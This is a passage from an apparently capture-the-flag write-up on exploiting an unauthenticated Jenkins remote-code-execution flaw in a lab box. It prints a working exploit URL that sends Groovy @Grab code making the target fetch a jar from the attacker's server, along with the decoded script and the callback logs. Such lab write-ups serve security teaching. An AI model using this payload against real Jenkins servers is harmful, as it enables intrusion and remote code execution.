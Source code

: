 ### Invoking Grape

If the point of the exploit is to create a GET request that gets Jenkins
to connect back to my machine and request the jar file, that seems like
a good place to start. In the [POC
video](https://www.youtube.com/watch?time_continue=7&v=abuH-j-6-s0),
they show visiting `/securityRealm/user/admin` and getting back a page
about the admin, even without auth. I can reproduce that by visiting
`http://10.10.10.63:50000/askjeeves/securityRealm/user/admin/`:

![](/img/1551284833773.png)

Now I'll visit the workflow plugin's checkScriptCompile API endpoint
with some Groovy that should use the `@Grab` meta annotation to request
the jar from me. I'll start a `python3 -m http.server 80` and visit:



    http://10.10.10.63:50000/askjeeves/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition/checkScriptCompile?value=@GrabConfig(disableChecksums=true)%0A@GrabResolver(name=%27orange.tw%27,%20root=%27http://10.10.14.21/%27)%0A@Grab(group=%27tw.orange%27,%20module=%27poc%27,%20version=%271%27)%0Aimport%20Orange;



In that url, I provide a `value` parameter which is the Groovy script to
run. It uses `%0A` for newlines. Here's how that script looks unencoded:



    @GrabConfig(disableChecksums=true)
    @GrabResolver(name='orange.tw', root='http://10.10.14.21/')
    @Grab(group='tw.orange', module='poc', version='1')
    import Orange;



It defines the parameters for the 'orange.tw' package, including where
to get it, and then invokes `@Grab` to fetch it.

On visiting the url, I do see activity on my web server:



    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.63 - - [27/Feb/2019 11:07:18] code 404, message File not found
    10.10.10.63 - - [27/Feb/2019 11:07:18] "HEAD /tw/orange/poc/1/poc-1.pom HTTP/1.1" 404 -
    10.10.10.63 - - [27/Feb/2019 11:07:19] code 404, message File not found
    10.10.10.63 - - [27/Feb/2019 11:07:19] "HEAD /tw/orange/poc/1/poc-1.jar HTTP/1.1" 404 -



Very cool! It tried to download a pom file, and when that failed, went
for `poc-1.jar`. That matches the `module` and the `version` from the
url. I can change module to "0xdf" and version to "223" in the url and
see that reflected:



    10.10.10.63 - - [27/Feb/2019 11:34:35] code 404, message File not found
    10.10.10.63 - - [27/Feb/2019 11:34:35] "HEAD /tw/orange/0xdf/223/0xdf-223.pom HTTP/1.1" 404 -
    10.10.10.63 - - [27/Feb/2019 11:34:36] code 404, message File not found
    10.10.10.63 - - [27/Feb/2019 11:34:36] "HEAD /tw/orange/0xdf/223/0xdf-223.jar HTTP/1.1" 404 -
